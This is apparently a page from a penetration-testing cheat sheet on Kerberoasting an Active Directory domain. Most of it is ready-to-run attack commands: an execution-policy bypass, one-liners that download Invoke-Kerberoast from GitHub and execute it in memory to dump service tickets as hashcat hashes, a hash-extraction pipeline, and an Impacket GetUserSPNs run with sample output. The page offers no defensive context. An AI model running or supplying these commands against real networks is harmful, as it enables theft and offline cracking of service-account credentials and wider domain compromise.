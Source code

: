 ```yaml
---
title : "Kerberoasting"
# pre : ' '
description : "Abusing the kerberos protocol to gain KRBTG hashes to crack."
date : 2020-07-08T09:50:07+02:00
# hidden : true
# draft : true
weight : 30
# tags : ['']
---
```


---

Abusing the kerberos protocol to gain KRBTG hashes to crack.

### Powershell

```powershell
Set-ExecutionPolicy -scope process -execution bypass
```

```powershell
iex((iwr https://raw.githubusercontent.com/justin-p/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1).content);invoke-kerberoast -outputformat Hashcat | export-csv C:\temp\kerb_tickets.csv
```

One liner to extract hashcat ready hashes from `kerb_tickets.csv`.

```plain
cat kerb_tickets.csv | awk '{print $1}' | sed 's/"//g' | cut -d ',' -f2 > kerbs
```

Other method:

```powershell
iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")
Invoke-Kerberoast -OutputFormat <TGSs_format [hashcat | john]> | % { $_.Hash } | Out-File -Encoding ASCII <output_TGSs_file>
```

On SSL/TLS error:

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
```

### GetUserSPNs.py - Impacket

```plain
$ GetUserSPNs.py -target-domain offsec.nl -request -outputfile out.log -dc-ip 10.10.10.10 offsec.nl/normal-user
Impacket v0.9.22.dev1+20200611.111621.760cb1ea - Copyright 2020 SecureAuth Corporation

Password:
ServicePrincipalName               Name               MemberOf                                                              PasswordLastSet             LastLogon                   Delegation
---------------------------------  -----------------  --------------------------------------------------------------------  --------------------------  --------------------------  ----------
SRV2016-DC/DC01.offsec.nl         DC01 [REDACTED]

$ cat out.log
$krb5tgs$23$*[REDACTED]
```
